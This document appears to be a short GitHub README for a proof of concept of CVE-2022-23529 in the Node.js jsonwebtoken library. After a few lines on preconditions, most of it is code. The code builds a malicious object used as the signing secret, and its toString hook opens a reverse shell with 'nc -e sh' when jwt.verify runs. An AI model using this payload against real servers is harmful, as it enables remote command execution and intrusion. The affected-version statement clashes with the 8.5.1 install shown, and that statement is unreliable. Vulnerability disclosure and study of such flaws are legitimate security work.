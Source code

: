 # CVE-2022-23529

The JSON Web Token (JWT) library versions prior to 3.4.6, 4.0.4, and 4.1.5 are vulnerable to RCE.

The HMAC hashing functions take any string as input which leads to RCE.

Due to the preconditions, this vulnerability is not likly to be exploitable.

In order to exploit this vulnerability an attacker would need one of the following conditions to be true:

- The server does not store secret keys securely.
- The attacker needs to have access to and control the secret keys.



## npm install jsonwebtoken@8.5.1

```var jwt = require('jsonwebtoken');```

## create a token using the servers secret

```var token = jwt.sign({"x":"y"}, 'servers_secret');```

## create malicious object containing a reverse shell (node.js)

```
var poisoned_secret_on_server = { 
    toString : ()=> {console.log('PWNED AFTER PASRSING TOKEN');
        process.on('exit', ()=> {
            require('child_process').exec('nc -e sh 127.0.0.1 9001');
        });
        process.exit(0)
    }
}
```

## server verifies the token using malicious object stored as secret

```jwt.verify(token, poisoned_secret_on_server);```
